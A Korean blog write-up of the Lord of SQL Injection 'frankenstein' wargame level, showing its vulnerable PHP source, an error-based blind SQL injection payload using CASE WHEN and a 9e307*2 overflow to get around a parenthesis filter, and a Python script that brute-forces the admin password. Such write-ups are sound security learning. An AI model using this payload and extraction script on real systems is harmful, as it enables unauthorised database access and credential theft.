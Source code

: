 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - frankenstein 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


용 시리즈 끝났더니 너무 어렵다 ㅠㅠ  

물론 풀타임으로 계속 고민하진 않았지만 이거 푸는데 너무 오래걸렸다.  

드디어 풀었다!  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw=''
---------------------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

문제 보자마자 읭? 했다.  

일단 괄호가 다 필터링 되어있다.  

근데 `error`를 뱉어주니, `Error Based Blind SQL Injection` 같은데, 문제는 `union`도 필터링 되어 있기 때문에 이 전에 문제를 풀기 위해 사용했던 서브쿼리에서 오류 발생시키기 방법을 사용하지 못한다는 거다.  

일단 초점은 맞췄던 것은 `조건문을 쓰는데 괄호 없이 어떻게 사용하는가!` 였다.  

서브쿼리를 괄호 없이 쓰는 법이 있나... 좀 오래 고민했는데, 다 풀고나니 내가 MySQL 문법만 제대로 알았더라도 이미 풀고도 남았던 문제였다.  

~~바보 인증 또함~~  

내가 사용한 문법은 다음과 같다.  

```
case when 조건 then 참일 때 else 거짓일 때 end
```

이렇게 하면 괄호 없이도 조건문을 사용할 수 있다.  

사실 이거 한참 전에 한번 시도해 봤던 문법인데, 뒤에 `end`를 붙여야 한다는 사실을 몰랐다.  

그래서 뭘 해도 오류가 나길래 `아 이거 안되는 건가보다` 이러고 넘겼는데, 오늘 다시 인터넷에 찾아보니 뒤에 `end`가 있더라.  

`혹시나...?` 하고 뒤에 `end`를 붙여서 내 서버에서 테스트 해 보니 매우 잘ㅋ됨ㅋ  

뭔가 갑자기 신나져서 막 코드 짜서 바로 돌려보았다.  

그랬더니 `pw` 값을 얻을 수 있었다.  

문제를 풀기 위해서 사용한 전체 쿼리는 다음과 같다.  

```
pw=1' or case when id='admin' and pw like 'a%' then 9e307*2 else 0 end#
```

이러면 만약 `id='admin' and pw like 'a%'`가 참일 경우에는 `9e307*2`가 실행되고 아닐 경우에는 `0`을 실행한다.  

그런데 `9e307*2`는 MySQL에서 `ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'`라는 오류를 준다.  

때문에 문제에서는 `error`만을 출력한 후 `exit` 하게 된다.  

`pw like 'a%'`는 이 전에도 한번 사용한 적이 있는데, `like`을 사용 할 경우 정규표현식 처럼 사용할 수 있다.  

`%`가 `모든 문자`를 의미하기 때문에 `a%`라고 하면 `a로 시작하고 뒤에 어떤 문자열이라도 붙어 있는 경우`를 체크한다.  

즉 `pw='a%'`는 `apple`, `abc` 모두 참이 나온다.  

이를 바탕으로 코드를 짜면 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""

url = "http://los.rubiya.kr/frankenstein_b5bab23e64777e1756174ad33f14b5db.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 40):
	found = False
	for i in range(48, 128):
		try:
			query = url + "1' or case when id='admin' and pw like '" + flag +  chr(i) + "%' then 9e307*2 else 0 end%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<br>error' in r.text:
			flag += chr(i)
			print "[+] Found", str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 무려 `한번에!` 값을 구할 수 있었다.  

좀 간만에 오류 없이 한방에 나와서 기분이 좋았다.  

아 아니구나 `두 번 만에` 나왔다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0D
[+] Found 3 : 0DC
[+] Found 4 : 0DC4
[+] Found 5 : 0DC4E
[+] Found 6 : 0DC4EF
[+] Found 7 : 0DC4EFB
[+] Found 8 : 0DC4EFBB
[+] Found password finished
[+] Found password :  0DC4EFBB
[+] End
```

이번에도 소문자로 입력하면 된다.  

아예 비교하는 대상 문자열을 내가 알파벳 소문자로 두면 될텐데 뭔가 귀찮아서 걍 `아스키코드 숫자 ~ 문자` 범위로 하다보니 맨날 대문자가 먼저 나온다.  

언젠간 고치겠지 뭐...  

아래처럼 입력하면 문제를 풀 수 있다.  

```
?pw=0dc4efbb
```

씐난다!  

기분 좋게 집 갈 수 있다!  

```php
------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw='0dc4efbb'
------------------------------------------------------------------------------------------------------------------------

FRANKENSTEIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

`FRANKENSTEIN Clear!!`